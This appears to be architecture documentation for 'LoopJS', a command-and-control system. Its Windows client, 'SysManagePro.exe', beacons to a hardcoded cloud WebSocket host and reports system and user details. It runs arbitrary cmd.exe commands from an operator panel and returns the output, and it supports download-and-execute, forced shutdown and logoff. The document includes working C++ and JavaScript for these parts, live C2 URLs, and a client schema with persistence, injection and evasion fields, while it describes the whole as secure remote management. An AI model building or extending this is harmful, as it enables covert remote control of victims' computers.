



# LoopJS Qt Client Architecture Analysis

## Executive Summary

This document provides a comprehensive analysis of the LoopJS Qt client architecture, focusing on its integration with the backend API and C2 panel frontend. The analysis covers directory structure, communication patterns, configuration management, and data flow synchronization mechanisms.

## Table of Contents

1. [Qt Client Directory Structure](#qt-client-directory-structure)
2. [Core Architecture Components](#core-architecture-components)
3. [Backend Integration Patterns](#backend-integration-patterns)
4. [Frontend Integration Patterns](#frontend-integration-patterns)
5. [Configuration Management](#configuration-management)
6. [Data Flow and Synchronization](#data-flow-and-synchronization)
7. [WebSocket Communication Protocol](#websocket-communication-protocol)
8. [Command Execution Flow](#command-execution-flow)
9. [Deployment and Build Process](#deployment-and-build-process)
10. [Security Considerations](#security-considerations)
11. [Development Guidelines](#development-guidelines)
12. [Troubleshooting Guide](#troubleshooting-guide)

---

## Qt Client Directory Structure

### Core Files
```
clients/qt-client/
├── mainwindow.cpp          # Main application logic and WebSocket handling
├── mainwindow.h            # Main window class definition
├── main_debug.cpp          # Entry point with console output for debugging
├── CMakeLists.txt          # CMake build configuration
├── config.json             # Client configuration file
├── README.md               # Client documentation
├── FileDownloader.h        # File download implementation
├── DownloadThread.h        # Thread for asynchronous file downloads
└── build-standalone.bat    # Standalone build script
```

### Build and Deployment Directories
```
├── build/                  # Standard build output
├── build-standalone/       # Standalone build output
├── dist/                   # Distribution package
├── deployment/             # Deployment configurations
├── final-deployment/       # Final deployment package
├── single-exe/             # Single executable builds
└── sfx-exe/                # Self-extracting executable builds
```

---

## Core Architecture Components

### 1. MainWindow Class (`mainwindow.cpp/h`)

The `MainWindow` class serves as the central component managing:

- **WebSocket Communication**: Handles connection to backend server
- **Client Registration**: Manages client UUID generation and server registration
- **Command Execution**: Processes commands received from the C2 panel
- **Heartbeat Management**: Maintains connection health with periodic heartbeats
- **System Information**: Collects and reports system details

#### Key Methods:
```cpp
// Connection Management
void onConnected()                    // WebSocket connection established
void onDisconnected()                 // WebSocket connection lost
void onError(QAbstractSocket::SocketError) // Connection error handling

// Registration and Communication
void sendRegistration()               // Register client with server
void sendHeartbeat()                  // Send periodic heartbeat
void onMessageReceived(const QString&) // Process incoming messages

// Command Execution
void executeCommand(const QString&, const QString&) // Execute system commands
void sendCommandOutput(const QString&, const QString&) // Send command results
void sendErrorResponse(const QString&, const QString&) // Send error responses
```

### 2. System Information Collection

The client collects comprehensive system information:

```cpp
QJsonObject getSystemInformation() {
    // Operating system details
    sysInfo["os"] = QSysInfo::prettyProductName();
    sysInfo["osVersion"] = QSysInfo::productVersion();
    sysInfo["architecture"] = QSysInfo::currentCpuArchitecture();
    
    // Network interfaces
    QJsonArray interfaces;
    // ... network interface enumeration
    
    // Computer and user information
    sysInfo["computerName"] = getComputerName();
    sysInfo["userName"] = qEnvironmentVariable("USERNAME");
    
    return sysInfo;
}
```

### 3. Client Capabilities

The client reports its capabilities to the server:

```cpp
QJsonArray getClientCapabilities() {
    QJsonArray capabilities;
    capabilities.append("execute_command");
    capabilities.append("message_box");
    capabilities.append("visit_page");
    capabilities.append("download_execute");
    capabilities.append("shutdown");
    capabilities.append("restart");
    capabilities.append("hibernate");
    capabilities.append("logoff");
    capabilities.append("file_operations");
    return capabilities;
}
```

---

## Backend Integration Patterns

### 1. WebSocket Connection Management

The Qt client establishes a secure WebSocket connection to the backend:

```cpp
// WebSocket URL configuration
#define DEF_WS_URL QUrl("wss://loopjs-backend-361659024403.us-central1.run.app/ws")

// Connection setup
connect(&m_webSocket, &QWebSocket::connected, this, &MainWindow::onConnected);
connect(&m_webSocket, &QWebSocket::textMessageReceived, this, &MainWindow::onMessageReceived);
connect(&m_webSocket, &QWebSocket::disconnected, this, &MainWindow::onDisconnected);
connect(&m_webSocket, &QWebSocket::errorOccurred, this, &MainWindow::onError);
```

### 2. Client Registration Process

1. **UUID Generation**: Client generates unique identifier using `QUuid::createUuid()`
2. **Registration Message**: Sends comprehensive registration data to server
3. **Server Response**: Waits for `register_success` confirmation
4. **Heartbeat Initiation**: Starts periodic heartbeat timer (30 seconds)

```cpp
void MainWindow::sendRegistration() {
    QJsonObject json;
    json["type"] = "register";
    json["uuid"] = m_clientUuid;
    json["computerName"] = getComputerName();
    json["ipAddress"] = getLocalIPAddress();
    json["platform"] = QSysInfo::prettyProductName();
    json["capabilities"] = getClientCapabilities();
    json["systemInfo"] = getSystemInformation();
    
    QJsonDocument doc(json);
    m_webSocket.sendTextMessage(doc.toJson(QJsonDocument::Compact));
}
```

### 3. Backend WebSocket Handler Integration

The backend processes client messages through `ws.handler.js`:

```javascript
// Client registration handling
if (data.type === 'register' || data.type === 'agent_register') {
    isAuthenticated = true;
    clientType = 'client';
    clientId = data.uuid || data.agentId;
    
    // Store connection for client communication
    connectedClients.set(clientId, ws);
    
    // Send success response
    ws.send(JSON.stringify({ 
        type: 'register_success', 
        message: 'Client registered successfully' 
    }));
}
```

### 4. Database Integration

Client data is stored in MongoDB using the `Client` model:

```javascript
// Client schema includes:
{
    uuid: String,           // Unique client identifier
    computerName: String,   // Computer name
    ipAddress: String,      // IP address
    platform: String,       // Operating system
    operatingSystem: String, // Normalized OS type
    architecture: String,   // System architecture
    capabilities: {         // Client capabilities
        persistence: [String],
        injection: [String],
        evasion: [String],
        commands: [String],
        features: [String]
    },
    status: String,         // online/offline
    lastHeartbeat: Date,    // Last heartbeat timestamp
    systemInfo: Object      // Detailed system information
}
```

---

## Frontend Integration Patterns

### 1. C2 Panel WebSocket Connection

The frontend establishes authenticated WebSocket connection:

```typescript
// WebSocket configuration
export const WS_URL = 'wss://loopjs-backend-361659024403.us-central1.run.app/ws';

// Connection with authentication
const ws = new WebSocket(WS_URL);
ws.onopen = () => {
    const authMessage = {
        type: 'auth',
        token: localStorage.getItem('accessToken')
    };
    ws.send(JSON.stringify(authMessage));
};
```

### 2. Real-time Client Updates

The frontend receives real-time client status updates:

```typescript
// Handle client status updates
if (data.type === 'client_status_update') {
    const clientData = data.client;
    const agentData: Agent = {
        id: clientData.uuid,
        name: clientData.computerName,
        ip: clientData.ipAddress,
        platform: clientData.platform,
        status: clientData.status,
        lastSeen: clientData.lastActiveTime,
        // ... additional fields
    };
    
    // Update client list
    setTableData(prevData => 
        prevData.map(agent => 
            agent.id === agentData.id ? agentData : agent
        )
    );
}
```

### 3. Command Execution Interface

The frontend sends commands to clients via WebSocket:

```typescript
const handleSendCommand = (agentId: string, command: string) => {
    const commandMessage = {
        type: 'command',
        targetId: agentId,
        command: command,
        timestamp: new Date().toISOString()
    };
    
    ws.send(JSON.stringify(commandMessage));
};
```

### 4. Command Response Handling

Command outputs are received and displayed in real-time:

```typescript
// Handle command responses
if (data.type === 'output' && data.taskId) {
    if (terminalRef.current) {
        terminalRef.current.applyOutput(
            data.taskId, 
            data.output, 
            data.status || 'success'
        );
    }
}
```

---

## Configuration Management

### 1. Qt Client Configuration (`config.json`)

```json
{
    "server": {
        "url": "wss://loopjs-backend-361659024403.us-central1.run.app/ws"
    }
}
```

### 2. Backend Configuration

#### Environment Variables:
- `MONGODB_URI`: MongoDB connection string
- `JWT_SECRET`: JWT token secret
- `PORT`: Server port (default: 8080)
- `NODE_ENV`: Environment (development/production)

#### CORS Configuration:
```javascript
const corsOptions = {
    origin: [
        'https://loopjs.vidai.sbs',
        'https://loopjs-backend-361659024403.us-central1.run.app',
        // ... additional allowed origins
    ],
    credentials: true,
    methods: ['GET', 'POST', 'PUT', 'DELETE', 'OPTIONS']
};
```

### 3. Frontend Configuration (`src/config.ts`)

```typescript
const BACKEND_URL = 'https://loopjs-backend-361659024403.us-central1.run.app';
export const API_URL = `${BACKEND_URL}/api`;
export const WS_URL = 'wss://loopjs-backend-361659024403.us-central1.run.app/ws';
```

---

## Data Flow and Synchronization

### 1. Client Registration Flow



### 2. Command Execution Flow



### 3. Heartbeat Synchronization



---

## WebSocket Communication Protocol

### 1. Message Types

#### Client to Server:
- `register`: Client registration
- `heartbeat`: Periodic heartbeat
- `capability_report`: Client capabilities
- `output`: Command execution results

#### Server to Client:
- `register_success`: Registration confirmation
- `auth_required`: Authentication required
- `error`: Error messages
- `execute`: Command execution request
- `messagebox`: Show message box
- `visit_page`: Open URL
- `download`: Download file
- `shutdown`: System shutdown
- `restart`: System restart
- `close_bot`: Close client

#### Admin to Server:
- `auth`: Authentication with JWT token
- `web_client`: Admin session identification
- `command`: Send command to client

#### Server to Admin:
- `auth_success`: Authentication success
- `client_list_update`: Client list updates
- `client_status_update`: Individual client status
- `output`: Command execution results
- `connection_stats`: Connection statistics

### 2. Message Format

All messages use JSON format:

```json
{
    "type": "message_type",
    "uuid": "client_uuid",
    "timestamp": "2024-01-01T00:00:00.000Z",
    "data": {
        // Message-specific data
    }
}
```

### 3. Error Handling

```json
{
    "type": "error",
    "message": "Error description",
    "code": "ERROR_CODE",
    "timestamp": "2024-01-01T00:00:00.000Z"
}
```

---

## Command Execution Flow

### 1. Command Types

The Qt client supports various command types:

#### System Commands:
- `execute`: Execute system command via cmd.exe
- `shutdown`: System shutdown with delay
- `restart`: System restart with delay
- `hibernate`: System hibernate
- `logoff`: User logoff
- `abort`: Abort shutdown

#### UI Commands:
- `messagebox`: Show message box
- `visit_page`: Open URL in default browser
- `close_bot`: Close client application

#### File Operations:
- `download`: Download file from URL
- `download_execute`: Download and execute file

### 2. Command Execution Process

```cpp
void MainWindow::executeCommand(const QString& command, const QString& taskId) {
    // Create process to execute command
    QProcess *process = new QProcess(this);
    
    // Set timeout and capture output
    process->setProcessChannelMode(QProcess::MergedChannels);
    
    // Handle process completion
    connect(process, QOverload<int, QProcess::ExitStatus>::of(&QProcess::finished),
        [this, process, taskId](int exitCode, QProcess::ExitStatus exitStatus) {
            QString output = process->readAllStandardOutput();
            QString errorOutput = process->readAllStandardError();
            
            // Combine output and error
            QString fullOutput = output;
            if (!errorOutput.isEmpty()) {
                fullOutput += "\n[STDERR]\n" + errorOutput;
            }
            
            // Send results back to server
            if (exitCode == 0 || !fullOutput.isEmpty()) {
                sendCommandOutput(taskId, fullOutput);
            } else {
                sendErrorResponse(taskId, "Command failed with exit code " + QString::number(exitCode));
            }
            
            process->deleteLater();
        }
    );
    
    // Start command execution
    process->start("cmd.exe", QStringList() << "/c" << command);
}
```

### 3. Command Response Format

```json
{
    "type": "output",
    "taskId": "cmd_1234567890_abcdef",
    "output": "Command output text",
    "status": "success",
    "timestamp": "2024-01-01T00:00:00.000Z"
}
```

---

## Deployment and Build Process

### 1. Qt Client Build Process

#### Prerequisites:
- CMake 3.16+
- Qt 6.9.3 MinGW 64-bit
- C++ compiler (MSVC, MinGW)

#### Build Steps:
```bash
# Standard build
cd clients/qt-client
build.bat

# Standalone build
build-standalone.bat
```

#### Build Configuration:
```cmake
cmake_minimum_required(VERSION 3.16)
project(SysManagePro VERSION 0.1 LANGUAGES CXX)

find_package(QT NAMES Qt6 Qt5 REQUIRED COMPONENTS Widgets WebSockets Network)
find_package(Qt${QT_VERSION_MAJOR} REQUIRED COMPONENTS Widgets WebSockets Network)

set(CMAKE_CXX_STANDARD 17)
set(CMAKE_CXX_STANDARD_REQUIRED ON)
```

### 2. Standalone Package Creation

The `build-standalone.bat` script creates a self-contained executable:

```batch
REM Copy executable to dist
copy build\SysManagePro.exe dist\

REM Copy required Qt DLLs
copy "%QT_DIR%\bin\Qt6Core.dll" dist\
copy "%QT_DIR%\bin\Qt6Gui.dll" dist\
copy "%QT_DIR%\bin\Qt6Widgets.dll" dist\
copy "%QT_DIR%\bin\Qt6WebSockets.dll" dist\
copy "%QT_DIR%\bin\Qt6Network.dll" dist\

REM Copy MinGW runtime DLLs
copy "%QT_DIR%\bin\libgcc_s_seh-1.dll" dist\
copy "%QT_DIR%\bin\libstdc++-6.dll" dist\
copy "%QT_DIR%\bin\libwinpthread-1.dll" dist\

REM Create platforms plugin directory
mkdir dist\platforms
copy "%QT_DIR%\plugins\platforms\qwindows.dll" dist\platforms\

REM Create tls plugin directory and copy SChannel backend
mkdir dist\tls
copy "%QT_DIR%\plugins\tls\qschannelbackend.dll" dist\tls\
copy "%QT_DIR%\plugins\tls\qcertonlybackend.dll" dist\tls\
```

### 3. Backend Deployment

#### Google Cloud Run Deployment:
```yaml
# cloudbuild.yaml
steps:
  - name: 'gcr.io/cloud-builders/docker'
    args: ['build', '-t', 'gcr.io/$PROJECT_ID/loopjs-backend', '.']
  - name: 'gcr.io/cloud-builders/docker'
    args: ['push', 'gcr.io/$PROJECT_ID/loopjs-backend']
  - name: 'gcr.io/cloud-builders/gcloud'
    args: ['run', 'deploy', 'loopjs-backend', '--image', 'gcr.io/$PROJECT_ID/loopjs-backend', '--platform', 'managed', '--region', 'us-central1']
```

#### Environment Configuration:
```javascript
// Production URLs
const BACKEND_URL = 'https://loopjs-backend-361659024403.us-central1.run.app';
const WS_URL = 'wss://loopjs-backend-361659024403.us-central1.run.app/ws';
```

### 4. Frontend Deployment

#### Vite Build Configuration:
```javascript
// vite.config.js
export default defineConfig({
  plugins: [react()],
  build: {
    outDir: 'dist',
    sourcemap: false,
    minify: 'terser'
  }
});
```

#### Nginx Configuration:
```nginx
server {
    listen 80;
    server_name loopjs.vidai.sbs;
    
    location / {
        root /usr/share/nginx/html;
        index index.html;
        try_files $uri $uri/ /index.html;
    }
}
```

---

## Security Considerations

### 1. WebSocket Security

#### SSL/TLS Encryption:
- All WebSocket connections use `wss://` protocol
- SChannel backend DLLs included for Windows SSL support
- Certificate validation enabled

#### Authentication:
- JWT token-based authentication for admin sessions
- Client registration with UUID validation
- Connection timeout for unauthenticated sessions

### 2. Command Execution Security

#### Input Validation:
```cpp
void MainWindow::executeCommand(const QString& command, const QString& taskId) {
    if (command.isEmpty()) {
        sendErrorResponse(taskId, "Empty command received");
        return;
    }
    
    // Command execution with timeout
    process->start("cmd.exe", QStringList() << "/c" << command);
}
```

#### Process Isolation:
- Commands executed in separate QProcess instances
- Process timeout and error handling
- Output sanitization before transmission

### 3. Network Security

#### CORS Configuration:
```javascript
const corsOptions = {
    origin: function (origin, callback) {
        const allowedOrigins = [
            'https://loopjs.vidai.sbs',
            'https://loopjs-backend-361659024403.us-central1.run.app'
        ];
        
        if (allowedOrigins.indexOf(origin) !== -1) {
            callback(null, true);
        } else {
            callback(new Error('Not allowed by CORS'));
        }
    },
    credentials: true
};
```

#### Rate Limiting:
```javascript
const apiRateLimit = rateLimit({
    windowMs: 15 * 60 * 1000, // 15 minutes
    max: 100, // limit each IP to 100 requests per windowMs
    message: 'Too many requests from this IP'
});
```

---

## Development Guidelines

### 1. Qt Client Development

#### Code Structure:
- Use Qt's signal-slot mechanism for event handling
- Implement proper error handling and logging
- Follow RAII principles for resource management
- Use Qt's built-in types and containers

#### Best Practices:
```cpp
// Proper signal-slot connections
connect(&m_webSocket, &QWebSocket::connected, this, &MainWindow::onConnected);

// Resource management
QProcess *process = new QProcess(this);
// ... use process
process->deleteLater(); // Clean up when done

// Error handling
if (process->state() == QProcess::NotRunning && process->error() != QProcess::UnknownError) {
    sendErrorResponse(taskId, "Failed to start process");
    process->deleteLater();
}
```

#### Debugging:
- Use `qDebug()` for debug output
- Enable console output in `main_debug.cpp`
- Implement comprehensive logging

### 2. Backend Development

#### WebSocket Handler Structure:
```javascript
// Message type handling
switch (data.type) {
    case 'register':
        // Handle client registration
        break;
    case 'heartbeat':
        // Handle heartbeat
        break;
    case 'output':
        // Handle command output
        break;
    default:
        console.log('Unhandled message type:', data.type);
}
```

#### Database Operations:
```javascript
// Client registration
const client = await Client.findOneAndUpdate(
    { uuid: data.uuid },
    { 
        $set: { 
            status: 'online',
            lastHeartbeat: new Date()
        }
    },
    { upsert: true, new: true }
);
```

### 3. Frontend Development

#### React Component Structure:
```typescript
// WebSocket message handling
const handleMessage = (data: any) => {
    switch (data.type) {
        case 'client_status_update':
            // Update client list
            break;
        case 'output':
            // Display command output
            break;
        default:
            console.log('Unhandled message type:', data.type);
    }
};
```

#### State Management:
```typescript
// Client list state
const [tableData, setTableData] = useState<Agent[]>([]);

// Update client status
setTableData(prevData => 
    prevData.map(agent => 
        agent.id === agentData.id ? agentData : agent
    )
);
```

---

## Troubleshooting Guide

### 1. Common Qt Client Issues

#### Connection Issues:
- **Problem**: Client cannot connect to WebSocket
- **Solution**: Check network connectivity and firewall settings
- **Debug**: Enable console output and check connection logs

#### Registration Failures:
- **Problem**: Client registration fails
- **Solution**: Verify UUID generation and server response
- **Debug**: Check registration message format and server logs

#### Command Execution Issues:
- **Problem**: Commands not executing
- **Solution**: Check command format and process creation
- **Debug**: Verify QProcess state and error messages

### 2. Backend Issues

#### WebSocket Connection Problems:
- **Problem**: WebSocket connections dropping
- **Solution**: Check connection timeout settings and heartbeat frequency
- **Debug**: Monitor connection stats and error logs

#### Database Connection Issues:
- **Problem**: MongoDB connection failures
- **Solution**: Verify connection string and network access
- **Debug**: Check MongoDB logs and connection status

### 3. Frontend Issues

#### WebSocket Authentication:
- **Problem**: Frontend cannot authenticate
- **Solution**: Verify JWT token and authentication flow
- **Debug**: Check token expiration and server response

#### Client List Updates:
- **Problem**: Client list not updating
- **Solution**: Check WebSocket message handling and state updates
- **Debug**: Verify message types and data format

### 4. Deployment Issues

#### Build Failures:
- **Problem**: Qt client build fails
- **Solution**: Check Qt installation and CMake configuration
- **Debug**: Verify build environment and dependencies

#### SSL/TLS Issues:
- **Problem**: SSL connections failing
- **Solution**: Include SChannel backend DLLs
- **Debug**: Check certificate validation and SSL configuration

---

## Conclusion

The LoopJS Qt client architecture provides a robust, secure, and scalable solution for remote system management. The analysis reveals a well-structured system with clear separation of concerns, comprehensive error handling, and real-time communication capabilities.

### Key Strengths:
1. **Modular Architecture**: Clear separation between client, backend, and frontend
2. **Real-time Communication**: WebSocket-based bidirectional communication
3. **Comprehensive System Information**: Detailed system data collection
4. **Secure Communication**: SSL/TLS encryption and authentication
5. **Cross-platform Compatibility**: Qt framework enables multi-platform support
6. **Scalable Design**: Supports multiple clients and admin sessions

### Areas for Improvement:
1. **Error Recovery**: Enhanced reconnection logic and error handling
2. **Performance Optimization**: Command execution optimization and caching
3. **Security Hardening**: Additional input validation and sanitization
4. **Monitoring**: Enhanced logging and monitoring capabilities
5. **Documentation**: More detailed API documentation and examples

### Future Development Recommendations:
1. **Plugin Architecture**: Support for custom command plugins
2. **Advanced Features**: File transfer, remote desktop, and system monitoring
3. **Mobile Support**: Android and iOS client development
4. **Cloud Integration**: Enhanced cloud deployment and management
5. **Analytics**: Usage analytics and performance monitoring

This documentation serves as a comprehensive reference for understanding, maintaining, and extending the LoopJS Qt client architecture. It provides the foundation for future development and ensures consistency in implementation patterns across the project.
